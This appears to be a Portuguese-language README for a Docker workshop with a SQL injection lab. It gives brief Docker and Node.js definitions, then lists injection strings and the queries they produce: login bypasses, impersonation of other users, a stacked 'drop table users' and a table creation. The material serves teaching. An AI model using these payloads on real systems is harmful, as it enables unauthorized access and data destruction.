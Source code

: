 # Docker Workshop with SQL Injection

## Images

| Image            | Link                              |
| ---------------- | --------------------------------- |
| **Linux Alpine** | https://hub.docker.com/_/alpine   |
| **Postgres**     | https://hub.docker.com/_/postgres |
| **Nginx**        | https://hub.docker.com/_/nginx    |

### 1. Dockerfile

É a receita passo a passo para criar uma imagem seja de um sistema operacional ou de uma aplicação.

### 2. Container

É a instância de uma imagem, ou seja, é a imagem em execução.

### 3. O que é o NODEJS

Nodejs é uma plataforma, e não é uma linguagem de programação

### 4. SQL Injection

```sql
' or ''='

' or login='usuario2

' or login='usuario3

--'; drop table users--

--'; create table new_users (login varchar(50),name varchar(50),password varchar(50))--
```

#### Como fica o comando final
```sql
SELECT * FROM users WHERE login = 'usuario1' AND password = '' or ''='';

SELECT * FROM users WHERE login = 'usuario1' AND password = '' or login='usuario2';

SELECT * FROM users WHERE login = 'usuario1' AND password = '' or login='usuario3';

SELECT * FROM users WHERE login = 'usuario1' AND password = ''; drop table users--';

SELECT * FROM users WHERE login = 'usuario1' AND password = ''; create table new_users (login varchar(50),name varchar(50),password varchar(50))--';
```